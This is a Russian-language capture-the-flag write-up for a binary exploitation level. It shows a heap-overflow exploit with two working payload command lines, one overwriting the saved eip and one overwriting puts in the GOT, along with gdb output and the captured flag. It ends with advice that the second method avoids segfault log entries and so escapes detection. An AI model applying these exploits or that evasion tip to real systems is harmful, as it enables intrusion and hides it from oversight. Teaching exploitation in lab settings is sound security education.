## level7
Имеются две функции: `main` и неисполняемая функция `m`. Также существует глобальный буфер `c` на 80 байтов.  

Функция `main` записывает разыскиваемый нами флаг из файла `../level8/.pass` в `c`. Если бы у нас получилось добиться вызова функции `m`, уровень был бы пройден, ведь именно она выводит содержимое `c` на экран.

Программа выделяет четыре сегмента памяти на куче:
```sh
$ ltrace ./level7 aaa bbb
malloc(8)                                       = 0x0804a008
malloc(8)                                       = 0x0804a018
malloc(8)                                       = 0x0804a028
malloc(8)                                       = 0x0804a038
```

Чтобы понять, что происходит, приведем код функции `main`, который мы получили, проанализировав её дизассемблер:

```c
int		main(int argc, char **argv){
	int		*a;
	int		*b;

	a = malloc(8); // 0x0804a008
	a[0] = 1;
	a[1] = (int)malloc(8); // 0x0804a018

	b = malloc(8); // 0x0804a028
	b[0] = 2;
	b[1] = (int)malloc(8); // 0x0804a038

	strcpy((char *)a[1], argv[1]);
	strcpy((char *)b[1], argv[2]);
	
	fgets(c, 68, fopen("/home/user/level8/.pass", "r"));
	puts("~~");

	return (0);
}
```

Мы можем переполнить 8-байтовый массив `a[1]`  и изменить адрес, сохраненный в ячейке `b[1]`. Таким образом при повторном вызове функции `strcpy` значение `argv[2]` запишется не по адресу `0x0804a038`, а в выбранное нами место. Для этого длина первого аргумента `argv[1]` должна превосходить `0x0804a028 - 0x0804a018 + 4 = 20` байтов.

### Способ 1

По аналогии с предыдущими уровнями мы можем переписать сохраненный регистр `eip` так, чтобы по окончании функции `main` контроль возвращался не к  `__libc_start_main`, а передавался к `m`.  Для нахождения адреса сохраненного `eip` регистра можно воспользоваться [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), либо посмотреть через `gdb`. Ради разнообразия мы пойдем вторым путем.

```sh
$ gdb ./level7
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
	...
(gdb) b *0x08048521
(gdb) x/x $esp
0xbffff73c:	0xb7e454d3
(gdb) x/i
0xb7e454d3 <__libc_start_main+243>:	mov    %eax,(%esp)
```

Мы видим, что сохранённый  `eip` регистр находится в позиции `0xbffff73c`. Изменим его значение на адрес функции `m`, равный  `0x080584f4`. 

```sh
$ ./level7 $(python -c 'print "a"*20 + "\x3c\xf7\xff\xbf"') $(python -c 'print "\xf4\x84\x04\x08"')
~~
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1642354311
Segmentation fault (core dumped)
```

### Способ 2

Внутри `main` содержится вызов к библиотечной функции `puts`. Вызовы к функциям из динамических библиотек сначала проходят через сегмент .PLT, который отсылает их к .GOT.PLT для дальнейшей обработки. Мы можем переписать содержимое .GOT.PLT для перенаправления потока управления к функции `m`.

```sh
$ gdb ./level7
(gdb) disas main
Dump of assembler code for function main:
...
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
...
(gdb) x/i 0x8048400
0x8048400 <puts@plt>:	jmp    *0x8049928
```

Итак, необходимый нам адрес равен `*0x8049928`.

```sh
$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1642354320
```

### Сравнение способов

Несмотря на то что способ 1 концептуально проще, способ 2 лучше подходит в реальных ситуаций, так как он не приводит к Segmentation Fault. Все ошибки сегментации фиксируются в системных логах, а значит, атаку будет возможно отследить. 
